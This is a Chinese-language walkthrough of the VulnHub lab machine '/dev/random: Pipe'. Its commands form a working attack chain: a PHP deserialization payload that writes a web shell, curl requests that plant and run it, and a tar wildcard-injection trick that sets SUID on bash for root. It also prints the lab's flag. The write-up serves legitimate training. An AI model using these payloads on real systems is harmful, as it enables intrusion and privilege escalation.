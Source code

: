 # /dev/random: Pipe

2025.03.11 https://www.vulnhub.com/entry/devrandom-pipe,124/

## Ip

192.168.5.39

## Scan

```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
57996/tcp open  unknown
```

访问 http://192.168.5.39/ 是 http-basic 认证，目前没有用户名和密码，nmap 扫描发现 Basic realm=index.php 。

目录扫描 http://192.168.5.39/images/pipe.jpg 下载图片查看隐写，没有隐写。

发现另外一个目录 http://192.168.5.39/scriptz/ 里面有 log.php.BAK 和 php.js ， 下载 BAK 文件，里面有 php 代码，后面可能使用 php 反序列化。

需要找到用户名和密码通过签名的 http 认证才能继续进行,经过爆破没有找到。

尝试使用 BP 拦截，然后修改访问方式为 POST 访问地址为 /index.php 就得到了 index.php 页面的内容，查看页面源代码，发现：

```html
<script src="scriptz/php.js"></script>
<script>
    function submit_form() {
        var object = serialize({ id: 1, firstname: "Rene", surname: "Margitte", artwork: "The Treachery of Images" });
        object = object.substr(object.indexOf("{"), object.length);
        object = 'O:4:"Info":4:' + object;
        document.forms[0].param.value = object;
        document.getElementById("info_form").submit();
    }
</script>

<form action="index.php" id="info_form" method="POST">
    <input type="hidden" name="param" value="" />
    <a href="#" onclick="submit_form(); return false;">Show Artist Info.</a>
</form>

O:4:"Info":4:{s:2:"id";i:1;s:9:"firstname";s:4:"Rene";s:7:"surname";s:8:"Margitte";s:7:"artwork";s:23:"The Treachery of Images";}
```

发现 serialize 将 object 转化成了 php 反序列化字符串，然后将值设置到 form 表单中的 param 参数上，点击后，就进行了提交：

```
curl --data 'param=O:4:"Info":4:{s:2:"id";i:1;s:9:"firstname";s:4:"Rene";s:7:"surname";s:8:"Margitte";s:7:"artwork";s:23:"The Treachery of Images";}' http://192.168.5.39/index.php
```

查看 log.php.BAK 这个文件，发现其中在 destruct 函数中写入了文件，可能有反序列化写入文件的漏洞，尝试构造 Log 这个类，然后用上面接口提交，触发这个类的反序列化执行：

```php
<?php
class Log
{
    public $filename = '/var/www/html/images/shell.php'; # 这里看到有 images 和 scriptz 2个目录，看看哪个目录能有写权限
    public $data = '<?php echo 1; system($_REQUEST[1]);?>';
}
$log = new Log();
$serialized_data = serialize($log);
echo  $serialized_data;
?>
```

```
curl --data-urlencode 'param=O:3:"Log":2:{s:8:"filename";s:30:"/var/www/html/images/shell.php";s:4:"data";s:37:"<?php echo 1; system($_REQUEST[1]);?>";}' http://192.168.5.39/index.php

curl -X POST http://192.168.5.39/images/shell.php?1=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

执行反弹 shell，到 kali 上。

在/home/rene/backup/中发现 backup.tar.gz 和 sys-17532.BAK ，同时发现 sys-30855.BAK 这种文件每 1 分钟生成一次，crontab 发现：

```
* * * * * root /root/create_backup.sh
*/5 * * * * root /usr/bin/compress.sh
```

create_backup.sh 没权限读取，看不到具体内容。

/usr/bin/compress.sh 每 5 分钟执行一次，内容为：

```
rm -f /home/rene/backup/backup.tar.gz
cd /home/rene/backup
tar cfz /home/rene/backup/backup.tar.gz *
chown rene:rene /home/rene/backup/backup.tar.gz
rm -f /home/rene/backup/*.BAK
```

发现会将 /home/rene/backup 中的所有内容进行打包,同时 backup 目录的权限是 777，这里可以使用 tar 提权：

```
cd /home/rene/backup
printf '#!/bin/bash\nchmod +s /bin/bash' > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" >> --checkpoint=1
```

等待 5 个整数分钟，这时 bash 已经变成 suid 权限，可以直接提到 root 权限：

```
www-data@pipe:/home/rene/backup$ /bin/bash -p
bash-4.3# cd /root
bash-4.3# ls
create_backup.sh  flag.txt
bash-4.3# cat flag.txt

Well Done!
Here's your flag: 0089cd4f9ae79402cdd4e7b8931892b7
```
